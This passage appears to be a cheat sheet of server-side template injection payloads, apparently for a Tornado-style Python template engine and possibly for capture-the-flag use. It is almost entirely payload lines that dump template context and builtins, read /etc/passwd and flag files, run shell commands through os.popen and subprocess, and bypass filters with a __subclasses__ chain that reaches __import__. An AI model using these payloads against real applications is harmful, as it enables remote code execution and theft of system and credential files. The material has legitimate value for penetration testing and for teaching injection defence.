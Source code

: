 ```
{{ handler }}
{{ handler.settings }}
{{ handler.application }}
{{ handler.__dict__ }}
{{ self }}
{{ globals() }}
```

### Accessing Python Builtins

```
{{ __builtins__ }}
{{ __builtins__.__dict__ }}
```

### File Reading

```
{{ open('/etc/passwd').read() }}
{{ open('/flag.txt').read() }}
{{ __import__('os').popen('cat /flag.txt').read() }}
```

### OS Command Execution

```
{{ __import__('os').popen('ls -la').read() }}
{{ __import__('os').system('id') }}
{{ __import__('subprocess').check_output(['cat', '/flag.txt']) }}
```

### Module Imports

```
{{ __import__('os').listdir('.') }}
{{ __import__('subprocess').check_output(['ls', '-la']) }}
```

## Bypass Techniques

### Using alternative syntax:

```
{% set x = 'os' %}
{% set os = __import__(x) %}
{{ os.popen('cat /flag.txt').read() }}
```

### Using alternative functions:

```
{{ handler.settings.get('compiled_template_cache', {}).items() }}
{{ [x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read() }}
```
